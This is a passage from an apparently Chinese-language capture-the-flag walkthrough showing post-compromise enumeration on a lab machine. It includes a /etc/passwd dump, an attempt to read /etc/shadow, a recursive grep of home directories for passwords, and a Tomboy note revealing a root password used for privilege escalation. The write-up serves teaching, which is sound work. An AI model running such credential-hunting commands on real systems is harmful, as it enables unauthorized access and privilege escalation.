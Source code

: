     mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
    smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
    apache:x:48:48:Apache:/var/www:/sbin/nologin
    ntp:x:38:38::/etc/ntp:/sbin/nologin
    sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
    openvpn:x:498:497:OpenVPN:/etc/openvpn:/sbin/nologin
    rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
    nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
    torrent:x:497:496:BitTorrent Seed/Tracker:/var/spool/bittorrent:/sbin/nologin
    haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
    gdm:x:42:42::/var/gdm:/sbin/nologin
    patrick:x:500:500:Patrick Fair:/home/patrick:/bin/bash
    jennifer:x:501:501:Jennifer Sea:/home/jennifer:/bin/bash
    andy:x:502:502:Andrew Carp:/home/andy:/bin/bash
    loren:x:503:503:Loren Felt:/home/loren:/bin/bash
    amy:x:504:504:Amy Pendelton:/home/amy:/bin/bash
    mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
    cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
    bash-3.2$ cat /etc/shadow
    cat /etc/shadow
    cat: /etc/shadow: Permission denied
    bash-3.2$ 
    
    ```

-   查找密码文件

-   >   bash-3.2$ grep -R -i password /home/* 2>/dev/null
    >
    >   参数解释：
    >
    >   -R 递归查找
    >
    >   -i 不区分大小写
    >
    >   2>/dev/null  将错误信息全部丢弃

-   ![image-20230523101141435](https://raw.githubusercontent.com/r0o983/images/main/image-20230523101141435.png)

-   获得密码，尝试提权

-   ```shell
    bash-3.2$ cat /home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note:
    cat: /home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note:: No such file or directory
    bash-3.2$ cat /home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note
    <?xml version="1.0" encoding="utf-8"?>
    <note version="0.2" xmlns:link="http://beatniksoftware.com/tomboy/link" xmlns:size="http://beatniksoftware.com/tomboy/size" xmlns="http://beatniksoftware.com/tomboy">
      <title>Root password</title>
      <text xml:space="preserve"><note-content version="0.1">Root password
    
    Root password
    
    50$cent</note-content></text>
      <last-change-date>2012-12-05T07:24:52.7364970-05:00</last-change-date>
      <create-date>2012-12-05T07:24:34.3731780-05:00</create-date>
      <cursor-position>15</cursor-position>
      <width>450</width>
      <height>360</height>
      <x>0</x>
      <y>0</y>
      <open-on-startup>False</open-on-startup>
    </note>bash-3.2$ 
    